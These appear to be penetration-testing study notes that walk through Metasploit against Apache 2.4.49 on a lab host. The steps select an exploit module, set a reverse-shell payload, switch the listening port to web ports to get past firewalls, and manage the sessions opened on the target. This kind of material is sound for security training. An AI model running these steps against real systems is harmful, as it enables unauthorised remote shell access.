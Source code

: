 
- Example:
	- Let's create a new workspace for this section and search Metasploit for modules related to "Apache 2.4.49"
		- `workspace -a exploits`
		- `search Apache 2.4.49`
	- Let's **use** the exploit module and enter **info** to review its description.
		- `use 0`
		- `info`
	- Display options
		- `show options`
	- Set payload
		- ```set payload payload/linux/x64/shell_reverse_tcp```
		- `show options`
		- LPORT 4444 -> might be blocked by firewalls -> change LPORT to common http/https ports
	- Set options
		- `set SSL false`
		- `set RPORT 80`
		- ```set RHOSTS 192.168.50.16```
	- `run`
- *sessions*
	- used to interact and manage access to successfully exploited targets
- *jobs*
	- used to run modules or features in the background.
- Sessions
	- send session to background
		- `Ctrl + Z`
	- list all sessions
		- `sessions -l`
	- interact with a session
		- `sessions -i 2`
		- `uname -a`
	- kill a session
		- `sessions -k 2`
	- Run exploit in the context of a job
		- `run -j`